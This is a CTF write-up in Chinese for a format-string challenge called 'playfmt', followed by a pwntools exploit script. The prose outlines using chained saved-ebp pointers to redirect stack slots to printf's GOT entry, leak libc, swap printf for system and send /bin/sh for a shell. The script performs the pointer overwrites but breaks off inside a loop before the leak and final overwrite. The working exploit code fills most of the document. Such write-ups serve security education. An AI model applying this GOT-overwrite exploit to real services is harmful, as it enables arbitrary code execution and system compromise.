 分别是p\_ebp1，p\_7，p\_ebp2，p_11。

大致流程：
通过p\_ebp1改p\_ebp2的值为p\_7的地址；
通过p\_ebp2改p\_7的值为printf在got表的地址；

通过p\_ebp1改p\_ebp2的值为p\_11的地址；
通过p\_ebp2改p\_11的值为printf在got表的地址+2；

通过p\_7 leak出printf的libc地址；
算出system地址；

通过p\_7和p\_11两字节两字节的把printf改成system；

发送/bin/sh拿shell。

exp:
```python
#coding = utf8
from pwn import *
context.log_level = 'debug'
context.terminal = ['terminator','-x','bash','-c']

p_printf = 0x0804A010


libc = ELF('libc.so')
cn = process('./playfmt')

cn.recv()

pay = '%6$x'
cn.sendline(pay)#

p_ebp2 = int(cn.recv(),16)#10
p_7 = p_ebp2-0xc#7
p_11 = p_ebp2+4#11
p_ebp1 = p_ebp2-0x10#6

pay = "%"+str(p_7&0xffff)+"c%6$hn\x00"
cn.sendline(pay)#set p_ebp2->p_7
cn.recv()

pay = "%"+str(p_printf&0xffff)+"c%10$hn\x00"
cn.sendline(pay)#set p_7->p_printf
cn.recv()

while 1:
	cn.send("here\x00")
	sleep(0.3)
	data = cn.recv()
	if data.find("here") != -1:
		break

pay = "%"+str(p_11&0xffff)+"c%6$hn\x00"
cn.sendline(pay)#set p_ebp2->p_11
cn.recv()

pay = "%"+str((p_printf+2)&0xffff)+"c%10$hn\x00"
cn.sendline(pay)#set p_11->p_printf+2
cn.recv()

cn.sendline('here\x00')

while 1:
	cn.send("here\x00")
```